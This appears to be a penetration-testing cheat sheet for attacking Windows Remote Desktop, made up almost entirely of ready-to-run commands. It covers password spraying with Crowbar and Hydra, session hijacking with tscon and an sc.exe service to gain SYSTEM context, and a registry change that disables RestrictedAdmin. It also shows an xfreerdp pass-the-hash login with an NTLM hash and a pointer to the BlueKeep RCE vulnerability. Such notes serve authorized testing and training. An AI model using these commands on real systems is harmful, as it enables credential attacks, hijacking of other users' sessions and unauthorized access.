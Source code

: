```yaml
---
edit:
---
```


# RDP

## Tools

- [Crowbar](https://github.com/galkan/crowbar) - Password spaying

## Password Spraying

### Crowbar

```bash
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```

### Hydra

```bash
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

### RDP Login

```bash
rdesktop -u admin -p password123 192.168.2.143
```

---

## Session Hijacking

```powershell
PS C:\> whoami
PS C:\> query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

# Needs system level priv
C:\> tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}

# w/out privs - get with psexec or mimikatz OR:
# Create a system service with sc
C:\> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
C:\> net start sessionhijack
```

## Pass-the-Hash

```cmd
# If error on xfreerdp login edit reg
C:\> reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f

# Pass it
xfreerdp /v:10.129.11.133 /u:administrator /pth:0E14B9D6330BF16C30B1924111104824
```

## Vulns

- RCE - [CVE-2019-0708](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2019-0708)

